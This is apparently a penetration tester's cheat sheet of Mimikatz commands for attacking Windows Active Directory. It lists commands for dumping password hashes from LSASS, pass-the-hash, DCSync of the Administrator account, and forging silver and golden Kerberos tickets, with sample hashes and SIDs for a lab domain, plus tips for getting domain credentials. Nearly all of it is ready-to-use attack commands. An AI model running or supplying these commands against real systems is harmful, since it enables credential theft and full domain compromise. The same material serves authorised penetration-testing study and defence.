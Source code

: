 Mimikatz Commands:

Escalate Privileges
# privilege::debug

Logged On Users Hashes
# sekurlsa::logonpasswords

Overpass the Hash
# sekurlsa::pth /user:<USER> /domain:corp.com /ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe

DC Sync to pull account info
# lsadump::dcsync /user:Administrator

List cached tickets
# kerberos::list

Flush cached tickets
# kerberos::purge

#Create Silver Ticket
# kerberos::purge
# kerberos::golden /user:<USER> /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /target:CorpWebServer.corp.com /service:HTTP /rc4:E2B475C11DA2A0748290D87AA966C327 /ptt

#Create Goldent Ticket from DC
# privilege::debug
# lsadump::lsa /patch
## Get krbtgt hash from memory
# kerberos::purge
# kerberos::golden /user:fakeuser /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /krbtgt:75b60230a2394a812000dbfad8415965 /ptt
##Launch a new command prompt with krbtgt privs
# misc::cmd

When accessing the Computers, use the HOSTNAME so Kerberos auth occurs vs IPAddress which forces NTLM auth 

If it is not on a domain, just dump the reg hives or run get-passhashes
Dumping lsass is far more reliable for getting domain creds than the reg hives